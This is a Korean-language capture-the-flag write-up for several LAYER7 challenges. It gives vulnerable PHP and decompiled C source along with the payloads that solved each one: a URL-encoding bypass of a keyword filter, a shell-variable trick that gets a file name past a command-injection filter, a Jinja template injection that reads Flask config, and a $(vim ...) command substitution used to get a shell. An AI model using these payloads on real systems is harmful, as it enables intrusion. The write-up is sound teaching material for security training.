

__url routing__

```php
<?php 
    error_reporting(0); 
    require __DIR__."/secret.php"; // flag is here 

    # waf 
    $url_query = parse_url($_SERVER['REQUEST_URI'], PHP_URL_QUERY); 
    if(stripos($url_query, 'flag') !== false){ 
        die('no hack'); 
    } 

    # routes 
    if(isset($_GET['author'])){ 
        die('safflower'); 

    }else if(isset($_GET['flag'])){ 
        die($flag); 
         
    }else{ 
        highlight_file(__FILE__); 
        die; 
         
    }
```


코드는 GET으로 받는 flag파라미터가 있으면 된다

parse_url 에서 url_encoding 된것은 처리를 안해준다는 것을 이용하면 된다

<http://dm1536803965686.fun25.co.kr:23902/5099d288498b4e17/?%66%6c%61%67>

FLAG : LAYER7{4f3a6c9f4b9c36ed3c39b8d3e14aa4fb}


__meow__

```php
<?php 
    require __DIR__.'/flag.php'; 

    if(isset($_GET['file'])){ 
        if(preg_match('/flag|\'|\"|`|\\\\|;|\(|\)|\*|\?|\.\.|\//i', $_GET['file'])){ 
            die('no hack'); 
        } 
        system('cat "'.$_GET['file'].'"'); 

    }else{ 
        header('Location: ?file=test.txt'); 

    } 

    echo '<hr>'; 
    highlight_file(__FILE__);

```


GET으로 받는 flag 파라미터에 출력하고 싶은 파일을 넣어주면 된다

flag.php 를 적절히 우회해서 넣어주면 된다

A$@B == AB 라는 걸 이용해서

fl@ag.php = flag.php

[http://dm1536803965686.fun25.co.kr:23903/74cdf2ead84d1743/?file=fl$@ag.php

FLAG : LAYER7{070e260558a03c1494817459ebbc060e}


__msg__

[http://dm1536803965686.fun25.co.kr:23908/?msg=원하는_내용](http://dm1536803965686.fun25.co.kr:23908/?msg=원하는_내용)

GET으로 받는 msg 파라미터의 내용을 그대로 출력 해준다. 

난 이 문제와 비슷한 유형을 Tokyowesterns CTF 2018 에서 봤고 이름은 jinja tempelete injection 이다.


문자열 필터링으로는 config , app , () , .. 등등 막혀있다

난 플래그가 config에 있을 것으로 보고 적절히 우회해서 풀었다.

get_flashed_messages.\_\_globals__\[‘current_ap’’p’][‘con’’fig’]

FLAG : LAYER7{e276a535acdda862e3f76e5deec26373}


__Sanity Check__

FLAG : LAYER7{1_h0pE_Y0u_eNj0y_p14yiNg!}


__Shell program , revenge__

unintended solution으로 풀었기 때문에 두 문제다 같은 페이로드로 풀 수 있었다.

우리는 2 번 ping을 이용해서 쉘을 딸 수 있다



```C
 v3 = 'gnip';
  v4 = '" ';
  v5 = 0;
  v0 = strlen((const char *)&v3);
  strcpy((char *)&v3 + v0, s);
  *(_WORD *)((char *)&v3 + strlen((const char *)&v3)) = 34;
  printf("your command => %s\n", &v3, v2);
  system((const char *)&v3);
```

ping ‘v3(input)’ 이 들어간다

난 vim에서 esc + : + ! + command 하면 command가 실행 되는걸 이용했다.


메뉴에서 ping을 선택해 $(vim >&0 <&1) 을 보내고

vim에 들어가 esc + : +! + /bin/sh 로 쉘을 땃다.

두 문제다 이렇게 풀린다.


FLAG : LAYER7{Wha4AAa4t_d03$_th1$_ch4r4ct3r_r3tuuuuurn?_$$$}

REVENGE_FLAG : LAYER7{w0W…H0w_t0_th1s_Fuck11111111ng_fi1t3r1ng_by-p4ss!!!!!!!!!???}

_(원래는 한문제 더 있었는데 출제오류로 없어졌지만 페이로드는 $(\tvim >&0 <&1) 였다...)_



